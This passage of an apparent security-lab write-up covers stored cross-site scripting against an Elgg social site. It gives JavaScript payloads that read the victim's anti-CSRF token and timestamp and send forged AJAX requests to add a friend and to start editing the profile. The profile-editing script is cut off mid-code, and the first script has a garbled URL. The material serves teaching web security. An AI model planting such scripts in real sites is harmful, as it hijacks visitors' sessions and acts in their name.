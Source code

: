 ![Screen Shot 2020-09-20 at 00.16.52](https://i.imgur.com/lzjweg9.png)



2. construct the URL for send add friend Request

```js
<script type="text/javascript">

window.onload = function () {
    // C: js to access Security Token __elgg_token
    var token = "&__elgg_token" + elgg.security.token.__elgg_token;

    // B: js to access Time Stamp __elgg_ts
    var ts = "&__elgg_ts" + elgg.security.token.__elgg_ts;

    // A: Find user ID from LiveHTTPHeader
    var sendurl = "http网址www.web.com/action/add?friend=42"+token+ts;


    // write the Ajax code
    var Ajax=null;
    // create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();

    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");

    // D: js to access the session cookie
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

### POST with Js - modify profile

![Screen Shot 2020-09-20 at 01.02.54](https://i.imgur.com/75zUEkB.png)

1. capture the POST request packet

2. construct the URL for send add friend Request

3. write the Ajax code

```js
<script type="text/javascript">
window.onload = function(){

    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content
    var content = "My new profile text.";

    //Create and send Ajax request to modify profile
    Ajax = null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
```